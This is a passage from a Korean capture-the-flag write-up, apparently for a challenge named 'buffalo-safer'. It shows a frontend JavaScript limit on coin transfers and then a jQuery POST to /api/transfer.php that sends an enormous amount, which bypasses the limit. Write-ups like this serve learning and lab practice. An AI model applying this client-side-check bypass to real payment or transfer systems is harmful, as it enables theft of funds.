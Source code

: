 _transfer page_

다만 돈을 보내려고 하면 Frontend 쪽에서 javascript로 아래와 같이 못보낸다고 막아놓은 상태이기 때문에 아예 API로 직접 전송해줍니다.

```javascript
if (amount + 0.5 > 0.049999999999954525) {
  alert(`You can't transfer over ${0.049999999999954525 - 0.5} BFL`);
  return;
}
```

보내는 코드는 아래와 같습니다.

```javascript
$.post("/api/transfer.php", {
  amount: "99999999999999",
  recv: "domdomi_test",
  token: "beefcafe",
  pow: "886932",
});
```

위코드를 실행하게 되면 아래와 같이 잘 보내진 것을 확인할 수 있습니다.

![transfer_ok](/assets/img/buffalo-safer-writeup-4.png){: .shadow }
_Transfer succeed_

이제 domdomi_test 계정으로 들어가서 돈이 얼마가 되었는지 확인해보겠습니다.
